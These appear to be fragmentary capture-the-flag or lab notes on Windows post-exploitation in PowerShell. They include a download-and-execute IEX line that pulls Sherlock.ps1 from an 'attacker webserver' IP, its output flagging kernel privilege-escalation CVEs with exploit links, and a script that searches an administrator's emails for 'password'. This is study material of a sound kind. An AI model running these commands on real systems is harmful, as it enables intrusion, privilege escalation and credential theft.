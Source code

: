 
Location of a file

Get-ChildItem -Path C:\ -Include *interesting-file.txt* -File -Recurse -ErrorAction SilentlyContinue

2. Specify the contents of this file

Get-Content "C:\Program Files\interesting-file.txt.txt"


Base64 decode the file b64.txt on Windows. 
__________
#Download from attacker webserver
IEX(New-Object Net.Webclient).downloadString('http://10.10.14.22:8000/Sherlock.ps1')


Title      : Secondary Logon Handle
MSBulletin : MS16-032
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable

Title      : Windows Kernel-Mode Drivers EoP
MSBulletin : MS16-034
CVEID      : 2016-0093/94/95/96
Link       : https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS1
             6-034?
VulnStatus : Appears Vulnerable

Title      : Win32k Elevation of Privilege
MSBulletin : MS16-135
CVEID      : 2016-7255
Link       : https://github.com/FuzzySecurity/PSKernel-Primitives/tree/master/S
             ample-Exploits/MS16-135
VulnStatus : Appears Vulnerable
___________

$path = 'C:\Users\Administrator\Desktop\emails\*'
$magic_word = 'password'
$exec = Get-ChildItem $path -recurse | Select-String -pattern $magic_word
echo $exec